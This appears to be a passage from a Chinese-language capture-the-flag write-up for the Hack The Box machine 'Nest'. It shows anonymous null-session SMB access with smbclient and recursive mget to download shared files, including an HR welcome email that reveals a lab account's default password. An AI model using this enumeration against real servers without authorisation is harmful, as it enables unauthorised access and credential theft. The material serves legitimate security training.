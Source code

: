 发现在空会话下对 Data 和 Users 文件夹可读

我们可以使用 `mget *` 直接将整个 Data 文件夹下载到本机

```shell
root@kali:~/Desktop/HTB-Nest# smbclient -N //10.10.10.178/Data
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \IT\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Reports\*
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (0.4 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> 

```

注意， `mget *` 本身只能下载单个文件，如果想要批量下载文件夹，需要多两条命令，其中

`recurse on` 命令 recurse 可以被设置为on，以便在使用 mget 或 mput 命令时能够 get 或 put 匹配的子目录。recurse 缺省为 off，即只 get 或 put 当前目录中的文件。

`prompt off` 跳过是否下载的询问，否则每次都要确认。~~其实这个我也不太懂~~

```shell
smb: \> mget *
Get directory IT? y
NT_STATUS_ACCESS_DENIED listing \IT\*
Get directory Production? y
NT_STATUS_ACCESS_DENIED listing \Production\*
Get directory Reports? y
```

在其中一个文件夹 HR 中发现 `Welcome Email.txt` ，应该是 HR 发给新员工的欢迎信，其中给了 smb 的默认账户和密码

```shell
root@kali:~/Desktop/HTB-Nest/Shared/Templates/HR# cat Welcome\ Email.txt 
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019

Thank you
HR
```
